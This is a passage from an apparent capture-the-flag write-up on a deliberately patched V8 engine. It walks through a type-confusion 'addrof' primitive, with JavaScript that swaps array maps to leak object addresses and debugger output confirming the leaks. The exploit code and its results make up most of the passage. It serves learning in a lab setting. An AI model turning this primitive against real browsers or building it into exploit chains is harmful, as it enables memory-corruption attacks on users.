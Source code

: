We can then build a function that will leak an address for us, through a type confusion created by overlapping an array of objects with an array of floats:

```javascript
// address-of primitive
function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.SetLastElement(float_arr_map);

    // Get the address by accessing index 0
    let addr = obj_arr[0];

    // Set the map pointer back
    obj_arr.SetLastElement(obj_arr_map);

    // Return the address as a BigInt
    return float_to_integer(addr, 32);
}

// Print it!
console.log("Address of obj1:", addrof(obj1))
console.log("Address of obj2:", addrof(obj2))
```

So, we created some objects and an array to contain them - the values themselves aren't important, but the types are. We shortened the arrays and used the new `GetLastElement()` builtin to read past the end of the array and get both pointers to the Map objects that defines the data structure of the FixedArrays. This was straightforward for the array of floats, but for the array of Objects we first needed to make v8 think that the FixedArray was in fact full of floats (spoiler: it wasn't).

We can put all of this into a JavaScript file with the earlier type conversion functions, call it `addrof.js`, and we can give it a go.

```GDB
pwndbg> set disable-randomization on
pwndbg> run ./addrof.js
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.release/d8 ./addrof.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Address of float array map:  134768669
Address of object array map:  134769849
Address of obj1: 134768681
Address of obj2: 134768737
[Inferior 1 (process 14586) exited normally
```

Okay, so this can now reliably leak a memory address (formatted as a 32 bit integer), and with ASLR disabled it will be loaded in the same address every time. We can double check with GDB and asking for a `--shell` once `addrof.js` has finished running.

```GDB
pwndbg> run --allow-natives-syntax --shell ./addrof.js
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.release/d8 --allow-natives-syntax --shell ./addrof.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Address of float array map:  134768689
Address of object array map:  134769869
Address of obj1: 134768701
Address of obj2: 134768757
V8 version 8.5.0 (candidate)
d8> %DebugPrint(obj1)
0x03380808683d <Object map = 0x33808244e29>
{A: 1.1}
```